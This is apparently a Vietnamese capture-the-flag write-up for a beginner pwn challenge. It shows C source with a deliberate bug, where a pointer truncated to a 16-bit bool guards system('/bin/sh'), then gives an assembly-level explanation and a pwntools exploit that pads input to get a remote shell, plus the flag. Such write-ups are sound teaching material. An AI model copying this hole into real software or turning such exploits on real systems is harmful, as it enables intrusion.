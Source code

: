 ### what_is_your_dream

#### Review

Đây là một câu mình đánh giá nó khá là dễ ở đoạn exploit, nó chỉ khó ở khúc tìm bug còn mọi thứ chỉ là cơ bản. Vì giải này cho các bạn k17 nên mình cho luôn cả source để dễ tiếp cận. 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#ifdef bool
#undef bool
#endif
typedef short bool;
#define SIZE 100000
bool check_dream(char *key, char *temp)
{
    return strstr(temp,key);
}
const static char *my_dream = "Wanna.w^n";
int main() 
{
    char *buf = malloc(SIZE);
    printf("welcome to Wanna.w^n, this is your gift: %p\n",buf);
    printf("Do you want to know what my dream is?\n");
    printf("You have to find it by yourself ");
    fflush(stdout);
    fgets(buf,SIZE,stdin);
    if(check_dream(my_dream,buf))
    {
        printf("too bad, I wish you could see my dream\n");
        printf("now GET OUT!!!\n");
        exit(-1);
    }
    if(strstr(buf,my_dream))
    {
        printf("yay, congratulation on finding my dream\n");
        printf("I hope you enjoy it <3\n");
        system("/bin/sh");
    }else{
        puts("Goodbye!");
    }

    free(buf);
return 0;
}
```

![](test.png)

Test cơ bản thì đây là một file ELF 64-bits và không bị stripped, check các mitigation thì bài này chỉ có NX là được bật và RELRO thì partial. NX(Non-executable) được bật có nghĩa là chúng ta không thể truyền shell và execution trực tiếp vào được, Còn RELRO (Relocation Read-Only) Partial điều này có nghĩa là các hàm ở trong GOT (Global Offset Table) sẽ xuất hiện phía trên bss ở trong bộ nhớ, attacker sẽ không thể overflow trực tiếp vào GOT vì flow của stack có xu hướng đi xuống, tuy nhiên nó sẽ không thể ngăn cản khỏi việc bị ghi đè bởi bug format string. 

#### Analyze & Find bug

Bài này vì cho source nên phân tích khá là dễ,
* Từ trên xuống thì bài này cho biến buf mang kiểu char được khởi tạo với `malloc(100000)` tuy nhiên bài này biến buf chỉ sử dụng 1 lần và ở dưới đã free nên không có exploit ở trên heap được.
* Tiếp theo nó in ra cho mình `địa chỉ của biến buf`, đề bài cho cái này khá là quan trọng, mọi thứ đề bài cho đều có mục đích của nó hết sau đó nó chỉ in ra một số câu hỏi linh tinh rồi cho mình nhập vào input thông qua biến buf bằng `fgets(buf,100000,stdin)`, vì đọc 100000 vừa tròn với size của biến buf vậy nên không có bug buffer overflow ở đây. 
* Tiếp theo nó sẽ chạy xuống hàm if đầu tiên. Ở hàm if đầu tiên thì nó sẽ chạy hàm `check_dream(my_dream,buf)`. Hàm `check_dream(char *key, char *temp)` thì nó sẽ return giá trị `bool` thông qua hàm `strstr(temp,key)`, return giá trị `bool` thông qua hàm `strstr()` nó khá là quan trọng nên hãy chú ý đến nó. biến `my_dream` ở bên trên có kiểu `const static char` mang giá trị `"Wanna.w^n"`, còn biến `buf` là biến mình nhập input vào nó sẽ lưu ở đó. Nếu các bạn đã học qua về ngôn ngữ C thì chắc hẳn sẽ biết hàm `strstr()` sẽ trả về cái gì. Hàm `strstr(a,b)` nó sẽ tìm chuỗi con `b` ở trong chuỗi mẹ `a` nếu mà nó không tìm thấy nó sẽ trả về giá trị `pointer NULL` ngược lại thì nó sẽ trả về con trỏ trỏ tới vị trí đầu tiên của chuỗi con `b` được tìm thấy ở trong chuỗi mẹ `a`. Ở trong ngôn ngữ `C` mọi thứ khác `0` thì đều là `true`. Điều này khá là cơ bản ở trong mảng pwn vậy nên không có gì đáng để đi sâu vào. 
*  Ở hàm if thứ 2 thì bài này sẽ gọi trực tiếp hàm `strstr(buf,my_dream)` chứ không gọi thông qua hàm nữa. 

*Tóm lại ở bài này chúng ta phải nhập làm sao để cho hàm if đầu tiên chính xác là hàm check_dream(my_dream,buf) return về false để nó không chạy các câu lệnh bên trong hàm if và chúng ta phải thỏa mãn hàm if thứ 2 sao hàm strstr(buf,my_dream) return về true để có chạy các câu lệnh bên trong nó*

```Vậy bug ở bài này nằm ở đâu? Hay nói cách khác làm sao để có thể thỏa mãn hàm if thứ 2 nhưng không thỏa mãn hàm if thứ nhất thông qua biến buf của mình?```

Nếu như bạn vẫn chưa hiểu mình đang cần điều gì thì nên lướt lên trên đọc lại để có thể nắm rõ hơn về đề. 

--- 

CHÍNH XÁC BUG NẰM Ở HÀM 
```c
bool check_dream(char *key, char *temp)
{
    return strstr(temp,key);
} 
```
Tại sao bug nằm ở hàm này? Thì ở trên mình đã nói về return giá trị `bool`. Ở trong `C` thì mọi thứ đều `true` nếu khác `0`. Khi chúng ta debug thì có thể thấy hàm này nó chỉ đọc 2 bytes cuối thanh ghi rax, ví dụ thanh ghi rax có giá trị như sau `0x555555500` thì nó chỉ đọc 2 bytes cuối là `00` ta có thể thấy điều này ở trong `assembly code`

```assembly
.text:00000000004012E6                 call    check_dream
.text:00000000004012EB                 test    ax, ax
```

Lợi dụng điều này, khi nhập input vào biến buf thì ta có thể align địa chỉ của biến `my_dream` mà ta gửi sẽ có format như kiểu `0x55555555500` thì chúng ta đã có thể thỏa mãn giá trị `bool` ở hàm if đầu tiên trả về giá trị `false` trong khi tất cả bytes còn lại là địa chỉ của biến `my_dream` thì true. 

Ta có thể hàm if thứ 2 nó kiểm tra nguyên thanh ghi rax 
```assembly
0000000000401323                 call    _strstr
0000000000401328                 test    rax, rax
```

#### Exploit 

```py
from pwn import * 

elf = context.binary = ELF('./what_is_your_dream')
# r = process('./what_is_your_dream')
r = remote('45.122.249.68',10021)
context.log_level = 'info'
r.recvuntil(b'gift: ')
leak = int(r.recvline(),16) 
print(hex(leak))
print(hex(leak & 0xffff)) 
pad = 0x10000 - (leak&0xffff) 
payload = b'a'*pad + b'Wanna.w^n' 
# print(payload)
r.sendlineafter(b'yourself ',payload)
r.interactive()
```

*Ở bài này mình làm đề dựa trên sự thật rằng giá trị bool nó rất là nguy hiểm nếu như bạn không hiểu về nó. Điều đó mình học được ở comment trong topic này https://news.ycombinator.com/item?id=6309008 và flag chính là nội dung của comment đó*

```W1{d0nt_Us3_b0ol_1n_c_if_y0u_d0nt_g3t_it!!!1!}```


